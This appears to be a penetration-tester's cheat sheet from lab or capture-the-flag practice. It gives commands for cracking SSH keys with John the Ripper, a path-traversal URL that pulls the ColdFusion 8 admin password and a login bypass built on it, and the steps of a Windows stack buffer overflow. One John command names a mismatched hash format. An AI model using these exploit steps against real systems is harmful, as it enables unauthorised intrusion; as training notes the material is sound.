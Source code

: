 ### To crack ssh rsa key, convert to John format, then brute force										
1. /usr/share/john/ssh2john.py id_rsa > john.key
2. sudo john --format=raw-md5 /usr/share/wordlists/rockyou.txt id_john

## SSH Issues
If you get this response
```
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```
Try this: ssh sunny@10.10.10.76 -p 22022 -o KeXAlgorithms=diffie-hellman-group1-sha1

## CFIDE Cold Fusion Exploit Steps
1. If the CFIDE directory has been discovered, go to http://url/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
2. Copy the "password" value and enter it in the password field, but don't submit yet.
3. Hit control+shift+K to open the js console and type ```javascript:alert(hex_hmac_sha1(document.loginform.salt.value, document.loginform.cfadminPassword.value))```
4. Copy the content of the alert and have it ready.
5. Start forwarding to burp and submit the previously entered password.
6. In burp, change the cfadminPassword value to the content you copied from the alert.

## Simplified steps for Windows Buffer Overflow
1. Use python fuzzer and observe application in Immunity Debugger (the linux equivalent is Evans Debugger or edb)
2. Once the buffer has been determined, check the EIP register to make sure it's been overwritten with A's.
3. Once overwritten, use this to create a unique string in the buffer's length: ```msf-pattern_create -l 800```
4. Once the EIP has been overwritten with the new pattern, enter the contents here: ```msf-pattern_offset -l 800 -q 42306142```
5. Try overwriting the EIP register with B's to make sure the previou sstep returned correct results.
6. Once confirmed, check for bad characters using the following variable:
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```
7. Right click on ESP register and follow in dump to see which character it stopped at. Include \x00 since this is always bad. 
8. Repeat the process until all bad characters are removed from this variable, documented elsewhere, and the dump reaches \xff.
9. At this point, find a module to look for jmp esp instructions. Use msf-nasm_shell to find the hex equivalent of your desired instructions (e.g. jmp esp = FFE4)